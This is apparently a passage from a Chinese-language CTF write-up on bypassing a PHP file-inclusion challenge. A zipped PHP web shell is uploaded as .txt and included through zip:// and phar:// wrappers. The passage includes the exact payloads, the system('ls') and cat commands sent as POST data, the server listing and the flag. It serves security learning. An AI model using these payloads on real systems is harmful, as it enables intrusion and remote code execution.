 然后发现了三种方法

第一种是`%00`截断，`magic_quotes_gpc = off && php< 5.3.4`

第二种是文件名过长导致截断，`php version < 5.3.4`

第三种是转换字符集造成的截断，但是需要有`iconv`()函数

以上三种方法都不适用于本题

于是想到之前找资料的时候看到的，`zip://`和`phar://`伪协议，貌似也可以绕过本题的情况

测试一下，将我们刚刚写的那个`test.php`压缩成一个压缩包`test.zip`

上传抓包，修改后缀为txt，成功上传

然后就要使用`zip://`和`phar://`伪协议了

`zip://`使用方法`zip://file1%23file2`

`phar://`使用方法`phar://file1/file2`

这里`file1`是我们上传的那个压缩文件名，`file2`是我们解压后的文件名，他们两唯一不一样的地方就是两个文件的分隔符，注意一下就好

因为解压出来的文件名是`tets.php`后缀为`php`，所以可以成功解决后缀必须是`php`的问题了

然后很兴奋的去试了一番，发现并不行，怀疑人生了～

现在重要的读取文件的页面要上场了

路径！路径！路径！

随便读取一个文件，注意看路径是在`/Uploads/`下

我一开始是的时候，并没有加上路径，所以怎么试都出不来

所以最终payload是

```
rf=zip://Uploads/qLJKh484uso4dgNo.txt%23test
或者
rf=phar://Uploads/qLJKh484uso4dgNo.txt/test
```

post`a=system('ls');`，返回

```
1bda80f2be4d3658e0baa43fbe7ae8c1.php
46c48bec0d282018b9d167eef7711b2c.php
4df810ff9d0cab8e342469fe3a9aa885.php
CTF.php
Montserrat-Regular.ttf
Uploads check_inv_code.php
f_____l_____a_____g.txt
index.php
js
test.php 
```

看到`f_____l_____a_____g.txt`，兴奋～

post`a=system('cat f_____l_____a_____g.txt');`，得到`flag{810c4b69640d5545f610ea1f35fbd880}`
